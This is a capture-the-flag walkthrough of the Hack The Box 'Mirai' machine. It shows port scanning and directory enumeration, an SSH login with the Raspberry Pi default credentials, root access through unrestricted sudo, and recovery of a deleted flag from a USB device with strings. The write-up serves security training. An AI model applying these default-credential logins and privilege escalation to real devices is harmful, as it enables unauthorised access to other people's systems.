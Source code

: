 # Mirai walkthrough (Hack The Box)

- named after Mirai botnet https://en.wikipedia.org/wiki/Mirai_(malware)

- initial portscan

```
Nmap scan report for 10.10.10.48
Host is up (0.054s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- examining port `80` with curl
```
me@kali:/workspace$ curl http://10.10.10.48 -I
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Date: Sun, 29 Mar 2020 19:02:26 GMT
Server: lighttpd/1.4.35
```

- no exploits for `lighttpd/1.4.35` found

- gobuster
```
me@kali:/workspace$ gobuster dir -w /infosec/SecLists/Discovery/Web-Content/big.txt -u http://10.10.10.48
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.48
[+] Threads:        10
[+] Wordlist:       /infosec/SecLists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/29 14:54:12 Starting gobuster
===============================================================
/admin (Status: 301)
/versions (Status: 200)
===============================================================
2020/03/29 14:56:10 Finished
===============================================================
```

- found **Pi-hole** webpage

![Pi-hole application](pi-hole.png)

- no exploits available for **Pi-hole**

- it looks like the device is a Raspberry Pi, let's try default credentials - username `pi`, password `raspberry`

```
me@kali:~/Downloads$ ssh pi@10.10.10.48
pi@10.10.10.48's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 29 20:41:44 2020 from 10.10.14.55

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami
pi
```

- user flag is in `/home/pi/Desktop`

- we can run all commands as `sudo`

```
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

- run `sudo su` to switch to root user

```
pi@raspberrypi:~/Desktop $ sudo su
root@raspberrypi:/home/pi/Desktop# whoami
root
```

- find the root flag

```
root@raspberrypi:/home/pi/Desktop# cd /root/
root@raspberrypi:~# ls -l
total 4
-rw-r--r-- 1 root root 76 Aug 14  2017 root.txt
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

- find the usb stick

```
root@raspberrypi:~# cd /media/
root@raspberrypi:/media# ls -l
total 1
drwxr-xr-x 3 root root 1024 Aug 14  2017 usbstick
root@raspberrypi:/media# cd usbstick/
root@raspberrypi:/media/usbstick# ls -l
total 13
-rw-r--r-- 1 root root   129 Aug 14  2017 damnit.txt
drwx------ 2 root root 12288 Aug 14  2017 lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

- nothing else on the device
- try `mount` to list devices

```
root@raspberrypi:~# mount
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
...
/dev/sdb on /media/usbstick type ext4 (ro,nosuid,nodev,noexec,relatime,data=ordered)
...
binfmt_misc on /proc/sys/fs/binfmt_misc type binfmt_misc (rw,relatime)
```

- look for the flag in the device using `strings` or `grep` (the output contains the flag)

```
root@raspberrypi:~# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
[***FLAG***]
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
root@raspberrypi:~#
```
